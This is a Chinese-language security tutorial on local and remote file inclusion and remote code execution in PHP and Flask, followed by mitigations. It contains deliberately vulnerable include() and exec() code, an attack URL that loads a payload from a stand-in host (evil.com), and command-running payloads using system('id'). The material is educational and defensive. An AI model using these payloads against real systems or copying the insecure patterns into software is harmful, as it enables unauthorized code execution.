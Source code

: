 ### 文件包含與遠程代碼執行（RCE）

文件包含與遠程代碼執行（Remote Code Execution，RCE）是一種常見的攻擊手段，攻擊者可以利用系統對文件路徑的處理漏洞來執行未經授權的代碼。這些漏洞通常出現在 Web 應用程序中，當應用程序錯誤地包含或執行了不受信任的文件時，攻擊者可以利用這一點來注入惡意代碼，並在目標系統上執行。

文件包含攻擊有兩種主要形式：
1. **本地文件包含（LFI，Local File Inclusion）**：攻擊者能夠包含伺服器上的本地文件，通常會導致敏感文件的泄露。
2. **遠程文件包含（RFI，Remote File Inclusion）**：攻擊者能夠包含遠程伺服器上的文件，並執行其中的代碼。這是更嚴重的漏洞，因為攻擊者可以完全控制包含的遠程文件。

### RCE 攻擊的實例

下面展示了如何利用遠程文件包含漏洞進行攻擊，以及如何在受害系統上執行遠程代碼。

#### 1. **存在漏洞的 PHP 代碼示例（RFI）**

以下 PHP 代碼展示了一個簡單的文件包含功能，攻擊者如果能夠控制 `page` 參數的輸入，便可以在該網站上執行遠程代碼。

```php
<?php
    $page = $_GET['page'];  // 用戶控制的參數
    include($page);         // 包含並執行該文件
?>
```

如果攻擊者訪問以下 URL：

```
http://victim.com/vulnerable.php?page=http://evil.com/malicious_code.php
```

這樣，`evil.com` 上的 `malicious_code.php` 文件就會被包含並執行，導致遠程代碼執行（RCE）。

#### 2. **攻擊者的惡意文件（malicious_code.php）**

攻擊者的 `malicious_code.php` 可能包含惡意的 PHP 代碼，如下所示：

```php
<?php
    system('id');  // 執行操作系統命令
?>
```

當上述文件被包含並執行時，`system('id')` 會在受害系統上執行，並返回該系統的用戶 ID 等信息。

### 防範 RFI 和 LFI 攻擊

為了防範文件包含漏洞和遠程代碼執行，開發者應該遵循以下幾點：

#### 1. **禁用遠程文件包含（RFI）**

最有效的防範方法之一是禁用 PHP 中的 `allow_url_include` 設置，防止包含來自遠程伺服器的文件。

在 PHP 配置中，確保將 `allow_url_include` 設置為 `Off`：

```ini
allow_url_include = Off
```

這樣即使攻擊者設法控制 `page` 參數，也無法從遠程伺服器載入代碼。

#### 2. **使用絕對文件路徑**

不要直接使用用戶提供的文件名來進行文件包含，而是應該限制允許包含的文件範圍，並使用絕對文件路徑。

```php
<?php
    $page = $_GET['page'];
    $allowed_pages = ['home.php', 'about.php', 'contact.php'];
    
    if (in_array($page, $allowed_pages)) {
        include($page);
    } else {
        echo "Page not found.";
    }
?>
```

這樣只有在 `allowed_pages` 陣列中列出的文件才會被包含，從而防止不受信任的文件被加載。

#### 3. **對用戶輸入進行驗證和過濾**

對所有用戶輸入進行適當的過濾與驗證，防止攻擊者在輸入中包含惡意的文件路徑或 URL。例如，可以使用正則表達式來驗證輸入：

```php
<?php
    $page = $_GET['page'];
    
    // 只允許包含特定文件
    if (preg_match('/^[a-zA-Z0-9_-]+\.php$/', $page)) {
        include($page);
    } else {
        echo "Invalid page.";
    }
?>
```

這樣，只允許符合特定命名規則的文件被包含，從而減少攻擊面。

#### 4. **限制文件權限**

確保系統上所有文件的權限最小化，防止攻擊者利用文件包含漏洞修改或執行不該執行的代碼。

#### 5. **使用代碼庫或框架**

許多現代框架和內容管理系統（CMS）會自動處理文件路徑和用戶輸入的過濾，因此，使用這些經過測試的框架可以減少出現漏洞的風險。

### Python 實現 RCE 演示

假設我們在 Python Web 應用中使用了不安全的代碼來加載並執行用戶提供的文件，以下是一個簡單的範例：

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/execute')
def execute():
    user_input = request.args.get('file', '')
    
    try:
        with open(user_input, 'r') as file:
            exec(file.read())  # 執行文件內容
        return "Executed successfully"
    except Exception as e:
        return str(e)

if __name__ == '__main__':
    app.run(debug=True)
```

如果攻擊者提供了一個包含惡意 Python 代碼的文件：

```python
# malicious_code.py
import os
os.system('id')  # 執行操作系統命令
```

攻擊者訪問以下 URL：

```
http://victim.com/execute?file=malicious_code.py
```

該文件的內容將被 `exec()` 函數執行，並導致遠程代碼執行（RCE）。這裡的 `os.system('id')` 命令會在受害系統上執行，並返回用戶 ID 等信息。

### 防範 Python 中的 RCE

為了防範類似的攻擊，應該避免直接使用 `exec()` 或 `eval()` 來執行來自不可信來源的代碼。更好的方法是對用戶提供的文件或輸入進行驗證和過濾，並限制可執行的命令或代碼範圍。

例如，可以限制文件的路徑，或使用安全的沙盒環境來執行不受信任的代碼。

```python
import os

def safe_exec(file_path):
    allowed_files = ['/safe/directory/file1.py', '/safe/directory/file2.py']
    if file_path in allowed_files:
        with open(file_path, 'r') as file:
            exec(file.read())
    else:
        print("Attempted to execute an untrusted file!")
```

這樣只允許來自預設目錄的文件被執行，避免了不受信任文件的執行。

### 結論

文件包含漏洞和遠程代碼執行（RCE）是非常危險的漏洞，能夠讓攻擊者完全控制目標系統。防範這類攻擊的主要方法是：
- 禁用遠程文件包含（RFI）
- 使用絕對路徑和驗證文件來源
- 過濾和清理用戶輸入
- 限制系統權限，保護敏感文件

此外，應該避免在代碼中使用 `exec()`、`eval()` 等容易引發 RCE 漏洞的功能，並盡量使用安全框架和庫來開發應用。